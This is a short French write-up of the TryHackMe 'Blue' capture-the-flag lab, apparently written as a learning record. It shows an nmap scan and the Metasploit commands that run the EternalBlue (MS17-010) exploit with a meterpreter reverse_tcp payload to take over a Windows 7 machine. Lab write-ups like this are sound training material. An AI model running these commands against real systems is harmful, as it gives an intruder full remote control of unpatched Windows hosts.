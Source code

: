 # Write-Up : Blue – TryHackMe

## 🎯 Objectif
Exploiter une vulnérabilité sur une machine Windows via EternalBlue (MS17-010) et obtenir un accès distant.

---

## 🛠️ Outils utilisés
- Nmap
- Metasploit Framework
- SMB Enumeration

---

## 🧪 Étapes

### 🔍 1. Scan de ports
```bash
nmap -sC -sV -oN blue_scan.txt 10.10.XX.XX
```
→ SMB (445) ouvert, Windows 7 détecté.

### 💣 2. Lancer EternalBlue via Metasploit
```bash
msfconsole

use exploit/windows/smb/ms17_010_eternalblue
set RHOST 10.10.XX.XX
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST tun0
exploit
```

### 🕹️ 3. Contrôle distant
Une session Meterpreter est ouverte → contrôle total de la machine.

---

## ✅ Résultat
Accès au système Windows + récupération du flag dans `C:\Users\Administrator\Desktop`

---

## 🧠 Ce que j’ai appris
- Utilisation basique de Metasploit
- Exploitation d’une faille critique SMB
- Post-exploitation sur un environnement Windows
